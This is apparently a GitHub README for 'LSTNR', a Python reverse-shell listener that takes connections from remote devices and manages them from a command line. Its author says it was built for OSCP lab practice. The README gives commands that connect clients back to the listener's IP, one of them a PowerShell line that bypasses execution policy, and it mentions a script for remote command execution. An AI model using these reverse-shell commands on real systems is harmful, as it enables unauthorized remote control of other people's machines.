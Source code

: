 # LSTNR
Python server that receives shell connections from remote devices. 

Remote devices can be managed from a Command Line Interface (CLI)

<img width="666" alt="Screenshot 2025-01-03 at 6 36 01 PM" src="https://github.com/user-attachments/assets/9f1a5adb-3981-42cb-9855-3d847ec16c53" />

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Download LSTNR

```git clone github.com/bwithe/LSNTR```

# USAGE

1. Start LSTNR
    - `python3 lstnr.py -p <PORT_TO_LISTEN>`

2. Have CLIENT connect to LSTNR
    - Linux / MacOS
      - `bash client.sh -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
      - `python3 client.py -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
     
    - Windows
        - `powershell -ep bypass .\client.ps1 -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`

# Screenshot examples:
- Client connects to <LSTNR_SERVER>
<img width="702" alt="Screenshot 2025-01-04 at 10 49 03 PM" src="https://github.com/user-attachments/assets/c3027a17-1340-4f64-ac6c-776046003fd9" />

- LSTNR Server catches connection, and is able to manage remote device
<img width="722" alt="Screenshot 2025-01-04 at 10 48 47 PM" src="https://github.com/user-attachments/assets/4725cf8a-4ab0-47b7-9d36-acf0e5256f99" />


# TROUBLESHOOTING
- If you are having issues getting the username and hostname, please use `conquer.py`
    - `conquer.py` is the same script as `lstnr.py` however, it doesn't do anything fancy. It allows remote command execution, with responses.
